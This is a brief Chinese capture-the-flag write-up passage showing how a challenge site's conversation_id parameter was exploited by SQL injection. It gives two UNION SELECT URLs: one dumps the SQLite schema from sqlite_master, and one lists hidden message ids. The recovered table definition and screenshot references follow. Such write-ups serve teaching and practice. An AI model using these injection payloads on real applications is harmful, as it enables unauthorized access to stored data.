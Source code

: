 ```
https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,sql%20from%20sqlite_master%20where%20type=%27table%27--
```

得出：
```sql
CREATE TABLE messages (id text primary key, title text, contents text, shown boolean)
```

得知表中有一个 shown 项，那自然是要查查它等于 false 时的内容了

```
https://chal01-wext3czh.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=8b8678d1-55ef-4132-b511-bb69ae29e779%27%20union%20select%201,id%20from%20messages%20where%20shown%20=%20false--
```

![conversion_id](13.png "conversion_id")

得到结果

点进去：

![点进去](14.png "点进去")
